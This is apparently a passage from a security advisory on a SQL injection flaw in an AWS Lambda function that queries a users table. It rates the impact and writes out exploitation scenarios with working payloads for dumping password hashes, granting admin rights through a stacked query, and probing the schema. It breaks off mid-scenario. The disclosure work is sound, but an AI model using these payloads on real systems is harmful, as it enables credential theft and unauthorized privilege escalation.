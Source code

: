 - **Integrity (High)**: Attackers could insert, modify, or delete data in the database, potentially affecting all database contents.

- **Availability (Low)**: The vulnerability could cause some disruption of access to the database or Lambda function, but is unlikely to result in a complete system outage.

The Critical rating is appropriate given that this vulnerability allows unauthenticated remote attackers to access and modify sensitive data with minimal effort, potentially leading to severe business impacts including data breaches and regulatory violations.

# Exploitation Scenarios
**Scenario 1: Data Exfiltration**
An attacker triggers the Lambda function with a specially crafted payload containing a UNION-based SQL injection:

```
"userID": "0' UNION SELECT username, password FROM users--"

```

This causes the Lambda to execute:

```sql
SELECT username, email FROM users WHERE id = '0' UNION SELECT username, password FROM users--'

```

The attack bypasses the original query's constraints and returns all usernames and password hashes from the users table, potentially compromising all user accounts in the system.

**Scenario 2: Data Manipulation**
An attacker injects a payload with multiple SQL statements:

```
"userID": "1'; UPDATE users SET is_admin = true WHERE username = 'attacker';--"

```

If the database driver supports multiple statements, this would execute:

```sql
SELECT username, email FROM users WHERE id = '1'; UPDATE users SET is_admin = true WHERE username = 'attacker';--'

```

The attack grants administrative privileges to the attacker's account, enabling further system compromise.

**Scenario 3: Database Structure Enumeration**
An attacker uses error-based techniques to map the database:

```
"userID": "' AND (SELECT 1 FROM information_schema.tables WHERE table_schema=database() LIMIT 1)='2"

```
